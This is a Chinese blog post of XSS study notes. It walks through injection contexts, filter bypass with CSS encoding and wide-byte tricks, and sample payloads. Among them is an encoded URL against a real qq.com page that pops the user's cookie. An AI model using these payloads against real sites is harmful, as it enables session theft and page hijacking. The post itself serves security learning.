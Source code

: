 ```yaml
---
title: XSS学习笔记3
time: 2016.02.03 10:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: 学习心伤的瘦子的乌云XSS教程，通过例子，实例学习XSS。
    
---
```


### 0x01无过滤，输出在标签外
XSS的存在，必须涉及输入和输出。

也因此，过滤XSS一般在输入层或输出层过滤

对于没有任何过滤的，我们只要构造恶意代码前，将<,>""闭合即可。

这种漏洞的一般模型：


	<HTML标签></HTML标签>
	[输出]
	<HTML标签></HTML标签>

	或

	<HTML标签>[输出]</HTML标签>


payload：
	
	<img src=1 onerror=alert(1);>
在JS中，若遇到没有过滤的情况：

模型：
	
	<script>...[输出]...</script>

	<style>...[输出]...</script>

一般payload可以为：
	
	/><script>alert(1);</script>
	eval('alert(1)');void
![示例](http://wooyun.org/upload/201212/13142159aee108c1178a955e6f282cf1452a48ee.jpg)

---

### 0x02输出在标签内
比如：
	
	<input value="输出"> 、 <img onload="...[输出]..."> ，<body style="...[输出]..."> 

一种典型的例子就是：

	http://xxxx.com/search.php?word=test
	源码：<input type="text" value="test" />
对于上面的例子，如果没有过滤"，我们就可以构造下面这个payload

	test" onclick="alert(1)"
	输入后，源码变成：
	<input type="text" value="test" onclick＝"alert(1)"/>
这样就能xss
但是，大多数网站会对"进行过滤编码，编码成
	
	&quot;
这样我们先前对利用代码就失效了。

还一种例子是，当输出在
	
	<body style="[here]">
时，如
![image](http://wooyun.org/upload/201212/13152306bb005590e7b2859f5b157234729f5c32.jpg)

此时，就算代码过滤了“，但若其没有过滤\，我们就可以利用css编码＋expression来构造利用语句了。（如e可以编码成\65 \065 \000065）

其源码：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx
	
构造后：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\77\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

便能成功弹出窗口。（注，现在只能在IE6、7下触发，其他浏览器都修复了这个bug）


还一个典型例子：

	<HTML标签 onXXXX="...[输出在这里].."> 的例子。

	<a href="javascript:[输出在这里]">xxxx </a> 的例子。

这个输出点可以执行js代码，我们一般会构造<script>[输出]</script>。但，若其被过滤，则没有非常好的方法。不过，有时我们可以考虑通过HTML实体编码来绕过。（这个例子具体参考：[link](http://wooyun.org/bugs/wooyun-2010-015963)）

---

### 0x03 宽子节绕过
宽字节一般用于sql注入，这里也可以用来绕过一些XSS过滤器。
宽字节的详细介绍可以参考：[https://www.91ri.org/8611.html](https://www.91ri.org/8611.html)
简略讲就是：对于％df％5c，％5c是\符号，GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223)) >ascii(128)时系统会自动拼接%5c，因此吃掉‘\’，而%27、%20小于ascii(128)的字符就保留了。注意：gb2312是不能吃掉％5c的，即\
具体例子可参考：[link](http://wooyun.org/bugs/wooyun-2010-015969)

---

### 参考
1. [http://wooyun.org/bugs/wooyun-2010-015959](http://wooyun.org/bugs/wooyun-2010-015959)
2. [http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1](http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1)
3. https://www.91ri.org/8611.html
